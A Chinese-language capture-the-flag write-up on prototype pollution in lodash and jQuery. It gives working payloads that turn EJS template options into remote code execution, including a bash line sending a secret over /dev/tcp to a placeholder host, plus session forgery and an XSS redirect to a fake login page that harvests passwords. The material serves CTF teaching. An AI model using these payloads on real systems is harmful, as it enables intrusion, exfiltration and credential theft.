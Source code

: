 ## writeup

此题目前后端都存在原型链污染漏洞，漏洞很明显，所以只需要找利用链就可以了。 
利用后端的原型链污染可以进行RCE或者身份伪造等攻击，利用前端的原型链污染可以进行xss等攻击。

所以此题目就是为了让大家尽可能的挖前端或者后端所有使用的库中存在的 gadget 来进行攻击。
如果实在是挖不到第三方库里面的利用链，那么也没有关系，题目的代码本身也留有利用链，也同样可以获得flag。


**题目要求：获取管理员密码**


### 漏洞简述 

1. 后端的原型链污染漏洞

```
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"test": [{"constructor":{"prototype": {"a0": true}} }]}'

function check() {
    mergeFn({}, JSON.parse(payload));
    if (({})[`a0`] === true) {
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
    }

check();

```


2. 前端的原型链污染漏洞

```

$.extend(true, {}, JSON.parse('{"header":[{"__proto__": {"devMode": true}}]}'))
console.log({}.devMode); // true

```

### 利用ejs进行rce 

#### 解法一 

查看ejs的源码，看到下面代码：

```js

    if (!this.source) {
      this.generateSource();
      prepended += '  var __output = [], __append = __output.push.bind(__output);' + '\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
      if (opts._with !== false) {
        prepended +=  '  with (' + opts.localsName + ' || {}) {' + '\n';
        appended += '  }' + '\n';
      }
      appended += '  return __output.join("");' + '\n';
      this.source = prepended + this.source + appended;
    }
```

在看后面是一个动态函数生成

```js
    else {
        ctor = Function;
      }
      fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
    }
```

所以需要伪造 `outputFunctionName` 为一段恶意代码，就可以实现rce ，payload如下：

```json
{"type":"test","content":{"constructor":{"prototype":
{"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('b
ash -c \"echo $FLAG>/dev/tcp/xxxxx/xx\"')//"}}}}
```

#### 解法二


```js
    var escapeFn = opts.escapeFunction;
    var ctor;

    ....

    if (opts.client) {
      src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
      if (opts.compileDebug) {
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
      }
    }

```

伪造 `escapeFunction` 实现rce，payload如下：

```
{"constructor": {"prototype": {"client": true,"escapeFunction": "1; return
process.env.FLAG","debug":true, "compileDebug": true}}}
```

### 不使用第三方库中利用链的解法

##### 第一步: 利用后端的漏洞污染 session 

```json
{"type":"test","content":{"constructor":{"prototype":{"login":true,"userid":1}}}}
```

##### 第二步: 利用前端漏洞进行xss

本来是想挖一个jquery库中的利用链的，但是奈何找不到，只能自己写一个了。

```json
{"type":"test","content":{"__proto__": {"logger": "<script>window.location='http://wonderkun.cc/hack.html'</script>"}}}
```

```html

<!-- hack.html -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form action="#" method="get" class="am-form">
        <label for="email">用户名:</label>
        <input type="text" name="username" id="email" value="">
        <br>
        <label for="password">密码:</label>
        <input type="password" name="password" id="password" value="">
        <br>
        <label for="remember-me">
          <input id="remember-me" type="checkbox">
          记住密码
        </label>
        <br />
        <div class="am-cf">
          <input type="submit" name="" value="登录" class="am-btn am-btn-primary am-btn-sm am-fl">
          <input type="button" onclick="location.replace('<%= next %>')" value="注册" class="am-btn am-btn-default am-btn-sm am-fr">
        </div>
      </form>
</body>
</html>
```


### 结语

原型链污染漏洞的危害实在是不可小觑，我也不清楚这份代码里还有没有别的利用链。
如果您找到了新的玩法，或者对原型链污染漏洞利用链自动化挖掘有想法，可以联系我，带我学习一下。